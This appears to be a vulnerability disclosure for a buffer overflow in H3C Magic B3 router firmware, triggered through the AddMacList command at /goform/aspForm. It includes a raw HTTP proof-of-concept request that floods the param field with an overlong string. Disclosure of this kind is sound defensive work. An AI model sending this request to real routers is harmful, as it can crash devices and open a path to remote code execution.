


# Information


**Vendor of the products:** New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Affected products:** Magic B3

**Affected firmware version:** Magic B3 <=100R002

**Firmware download address:** [download](https://www.h3c.com/cn/Home/Agreement//default.htm?t=H3C%20Magic%20%20B3%20V100R002%20%E7%89%88%E6%9C%AC%E8%BD%AF%E4%BB%B6%E5%8F%8A%E8%AF%B4%E6%98%8E%E4%B9%A6&s=3125484)

# Overview

H3C routers have been found to have a buffer overflow vulnerability. Magic B3 model have a serious buffer overflow vulnerability. This vulnerability can cause a buffer overflow by routing /goform/aspForm and correctly controlling the param field, resulting in a denial of service attack or even remote code execution. The vulnerability is specifically triggered by AddMacList.

# Vulnerability details

Here is the entry of the request function



There is no length limit when copying the format, which leads to buffer overflow.



# POC

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=AddMacList&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;bb
```


